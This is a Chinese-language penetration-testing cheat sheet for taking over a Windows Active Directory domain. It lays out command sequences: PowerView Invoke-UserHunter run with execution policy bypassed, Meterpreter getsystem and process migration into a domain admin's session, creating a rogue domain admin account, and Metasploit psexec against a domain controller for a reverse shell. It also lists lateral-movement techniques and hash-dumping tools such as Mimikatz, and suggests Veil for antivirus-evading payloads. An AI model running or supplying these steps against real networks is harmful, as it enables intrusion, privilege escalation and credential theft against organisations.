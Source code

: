 #### Powershell寻找域管在线服务器
使用`PowerView`脚本的`Invoke-User Hunter`上传到目标机器，然后执行`Invoke-UserHunter`
```bash
powershell.exe -exec bypass -Command "&{Import-Module .powerview.ps1;Invoke-UserHunter}"
```
找到域管理员当前在线登录的主机后，入侵该主机，然后把它迁移到域管理员登录所在的进程，这样就有了域管的理的权限



#### 获取域管权限
渗透域控
```bash
# 先尝试
getsystem
getuid  #查看当前用户，因为之前知道这账户的域管理员
ps    # 找到域管理所在进程
migrate 30560 # 迁移进程过去(也可以用msf中窃取令牌的功能)
# 查看主域控的IP
shell    # 先进去cmd
net time
# 使用IPC$入侵来返回一个域控的meterpreter shell(操作见上面的步骤)
net user test test123 /ad /domain # 添加域管理员
net group "domain admins" /domain  #查看域管理员是否添加成功
```


#### 登录域控
下面要登录域控，抓取hash

常见的登录域控的方法：
```bash
- 利用IPC上传AT&Achtasks远程执行命令
- 利用端口转发或Socks登录DC的3389
- 登录对方内网一台主机使用PsTools工具包中的PsExec来反弹shell
- 使用msf下的PsExec，psexec_psh, Impacket psexec, pth-winexe, Empire Invoke-Psexec等PsExec类工具反弹shell
- 使用msf下的smb_login反弹shell
- 使用WMI来进行攻击
- 使用PsRemoting posershel远程执行命令
- 其他
```
最常见的是msf下的PsEcex反弹meterpreter(1.msf下的PsEcex模块   2.cuestom模块,建议使用Veil之类的工具来生成免杀的payload)
```bash
use /exploit/windows/smb/psexec
set smbuser test
set smbpass test123
set smbdomain HACKER
set rhost 192.168.0.111
run
# 获得反弹的meterpreter shell之后，先迁移进程，查看DC的系统系统和sesssion控制图
ps
migrate 2166
getuid
sysinfo
sessions    # 查看我们获取的sessions

# 抓hash方法：
- msf自带的hashdump(有system权限才可以)或smart_dump模块导出用户的Hash
- 使用PowerShell的相应模块导出hash
- 使用WCE、Mimikatz等工具
- 其他
```
